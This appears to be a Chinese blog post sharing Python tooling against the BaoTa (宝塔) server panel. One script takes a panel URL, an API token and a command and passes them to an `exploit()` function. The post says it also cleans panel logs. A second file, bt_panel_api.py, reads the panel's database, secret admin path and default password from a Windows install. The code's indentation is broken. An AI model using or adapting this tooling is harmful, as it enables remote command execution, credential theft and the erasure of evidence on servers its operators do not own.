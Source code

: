```
    parser.add_argument("-g", "--generate", action="store_true", help='生成一个api示例.')
    parser.add_argument("-u", "--url", help='宝塔地址.')
    parser.add_argument("-t", "--token", help='API token.')
    parser.add_argument("-c", "--command", help='要执行的命令.')
    args = parser.parse_args()
if args.generate:
        generate_example_config()
else:
if (args.url is not None) & (args.token is not None) & (args.command is not None):
            exploit(url=args.url, token=args.token, cmd=args.command)
else:
            print('缺少参数')
```

这个脚本可以自动清理面板日志

脚本源码，也可以在 github 地址下载  

**bt_panel_api.py**
-------------------

```
# -*- coding:utf-8 -*-
import sqlite3


class BT:
def __init__(self):
        self.conn = sqlite3.connect('C:/BtSoft/panel/data/default.db')
        self.c = self.conn.cursor()

    @staticmethod
def read_file(path):
with open(path, 'r') as file:
return file.read()

    @staticmethod
def get_random_string(length):
from random import Random
        strings = ''
        chars = 'AaBbCcDdEeFfGgHhIiJjKkLlMmNnOoPpQqRrSsTtUuVvWwXxYyZz0123456789'
        char_len = len(chars) - 1
        random = Random()
for i in range(length):
            strings += chars[random.randint(0, char_len)]
return strings

    @staticmethod
def md5(string):
import hashlib
return hashlib.md5(string.encode()).hexdigest()

def hash_password(self, password, salt):
return self.md5(self.md5(self.md5(password) + '_bt.cn') + salt)

def get_panel_path(self):
return self.read_file('C:/BtSoft/panel/data/admin_path.pl')

def get_default_username(self):
        cursor = self.c.execute('select username from users where id=1')
return cursor.fetchone()[0]

def get_default_password(self):
return self.read_file('C:/BtSoft/panel/data/default.pl')

```